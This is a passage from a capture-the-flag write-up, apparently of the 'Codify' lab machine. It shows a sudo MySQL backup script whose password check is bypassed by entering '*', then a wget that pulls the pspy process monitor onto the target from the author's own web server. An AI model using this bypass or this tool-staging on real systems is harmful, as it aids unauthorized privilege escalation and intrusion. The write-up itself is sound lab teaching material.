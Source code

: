 Entering the wrong password exits the script:

```

joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmation failed!

```

However, entering “\*” (the input is not shown on the terminal because the `-s` flag is used with `read`) bypasses the check:

```

joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!

```

To watch for the processes, I’ll upload PSpy. I’ll download the [latest release](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) (v1.2.1 at the time of writing this post), and save it in `/opt` on my host. Now I’ll serve that directory with a Python web server:

```

oxdf@hacky$ python -m http.server 80 -d /opt/
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

I’ll fetch it from Codify:

```

joshua@codify:/dev/shm$ wget 10.10.14.6/pspy64
--2024-04-04 16:37:21--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  4.34MB/s    in 0.7s    

2024-04-04 16:37:22 (4.34 MB/s) - ‘pspy64’ saved [3104768/3104768]

```
